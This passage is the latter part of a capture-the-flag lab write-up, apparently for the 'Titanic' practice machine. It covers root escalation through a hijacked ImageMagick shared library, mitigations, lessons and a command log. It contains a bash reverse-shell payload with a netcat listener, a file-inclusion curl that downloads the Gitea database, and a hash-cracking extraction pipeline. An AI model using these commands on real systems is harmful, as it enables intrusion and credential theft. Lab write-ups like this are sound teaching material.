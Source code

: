 `magick --version` - shows the version lines up with the vulnerability.

---
## 6. Privilege Escalation

Reading the script I can see that it is accessing files in `/opt/app/static/assets/images/`. 

`ls -l /opt/app/static/assets/images` - I can see the *metadata.log* file has been recently updated. It's possible the *identify_images.sh* script is on a timer. Using the proof of concept on github, I modified the *libxcb.so.1* file to contain a reverse shell payload - `"/bin/bash -c 'bash -i >& /dev/tcp/>IP</>PORT< 0>&1'"`, and set up a netcat listener on my machine using `nc -lvnp >PORT<`. This file must be placed in the same directory that the `magick` program is searching.

A few moments later and a root shell had spawned, giving me root access to the machine. 

---

## 7. Mitigations and Recommendations
- Properly sanitize the /download?ticket= endpoint to prevent file inclusion.
- Use strong credentials when creating accounts, at minimum - one lowercase letter, one uppercase letter, one digit, one special character, and twelve characters in length.
- Keep software/programs up to date to mitigate vulnerabilities. 

---

## 8. Lessons Learned
- Local file inclusion is a way to enumerate further into the system.
- Gitea requires a proper format for the hashes to become crackable.
- Investigate scripts to find potential cronjobs.
- Take the time to properly enumerate the system to find initial and escalation paths.

---

## 9. Appendix: Full Command Log
`nmap -p- -vv -A -oN scans/nmap 10.10.11.55`

`ffuf -w /usr/share/wordlists/SecLists-master/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://titanic.htb -H "Host: FUZZ.titanic.htb" -fw 20`

`curl "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o files/gitea.db`

`sqlite3 gitea.db`

`.tables`

`.schema user`

`select email, salt, passwd, passwd_hash_algo from user;` 

`curl -O https://raw.githubusercontent.com/hashcat/hashcat/master/tools/gitea2hashcat.py`

`sqlite3 gitea.db 'select salt, passwd from user' | ./gitea2hashcat.py > hash.txt`
